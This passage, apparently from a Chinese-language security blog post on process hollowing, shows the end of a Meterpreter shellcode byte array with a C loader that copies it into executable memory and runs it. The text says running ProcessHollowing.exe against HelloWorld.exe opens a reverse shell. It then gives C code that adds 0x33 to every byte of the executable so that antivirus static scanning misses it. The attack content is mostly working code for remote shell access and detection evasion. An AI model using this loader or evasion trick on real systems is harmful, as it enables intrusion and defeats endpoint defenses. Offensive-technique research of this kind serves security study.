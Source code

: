 ```
        "\xd5\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58"
        "\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9"
        "\xc8\x5f\xff\xd5\x01\xc3\x29\xc6\x75\xee\xc3";

    typedef void (__stdcall *CODE) ();    
    PVOID p = NULL;    
    if ((p = VirtualAlloc(NULL, sizeof(shellcode1), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE)) == NULL)   
        MessageBoxA(NULL, "error", "VirtualAlloc", MB_OK);    
    if (!(memcpy(p, shellcode1, sizeof(shellcode1))))    
        MessageBoxA(NULL, "error", "memcpy", MB_OK);    
    CODE code =(CODE)p;       
    code(); 

    return 0;
}
```

执行ProcessHollowing.exe，加载HelloWorld.exe，弹回shell，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-11-30/3-3.png)

由于使用了Meterpreter，HelloWorld.exe会被杀毒软件静态查杀，这里做一个简单的加解密即可绕过

对HelloWorld.exe逐字符作0x33加，源代码如下：

```
#include <windows.h>

char *SoucePath = "c:\\1\\HelloWorld.exe";
char *DesPath = "c:\\1\\test\\HelloWorld.exe";

int _tmain(int argc, _TCHAR* argv[])
{
    HANDLE hFile = CreateFileA
    (
        SoucePath,
        GENERIC_READ, 
        0, 
        0, 
        OPEN_ALWAYS, 
        0, 
        0
    );
    if (hFile == INVALID_HANDLE_VALUE)
    {
        printf("Open file error\n");
        return 0;
    }
    DWORD dwSize = GetFileSize(hFile, 0);
    PBYTE pBuffer = new BYTE[dwSize];
    DWORD dwBytesRead = 0;
    ReadFile(hFile, pBuffer, dwSize, &dwBytesRead, 0);
    PBYTE pBuffer2 = new BYTE[dwSize];
    PBYTE pBuffer3 = new BYTE[dwSize];
    for(DWORD i=0;i<dwSize;i++)
    {
        pBuffer2[i]=pBuffer[i]+0x33;
    }
/*
    for(DWORD i=0;i<dwSize;i++)
    {
        pBuffer3[i]=pBuffer2[i]-0x33;
    }       
*/  
```